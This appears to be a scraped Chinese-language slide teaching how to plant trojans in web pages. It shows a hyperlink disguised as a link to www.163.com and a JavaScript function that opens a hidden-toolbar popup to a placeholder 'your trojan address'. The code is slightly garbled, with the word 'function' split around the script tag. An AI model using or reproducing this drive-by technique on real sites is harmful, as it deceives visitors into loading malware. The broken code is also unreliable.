

# 网页挂马
不点出现链接的木马
<a href="http://www.163.com(迷惑的超级连接地址，显示这个地址指向木马地址)" > 页面要显示的内容 </a>

fu<SCRIPT Language="JavaScript">
nction www_163_com ()
{
var url="你的木马地址";
open(url,"NewWindow","toolbar=no,location=no,directories=no,status=no,
menubar=no,scrollbars=no,resizable=no,
copyhistory=yes,width=800,height=600,left=10,top=10");
}
</SCRIPT>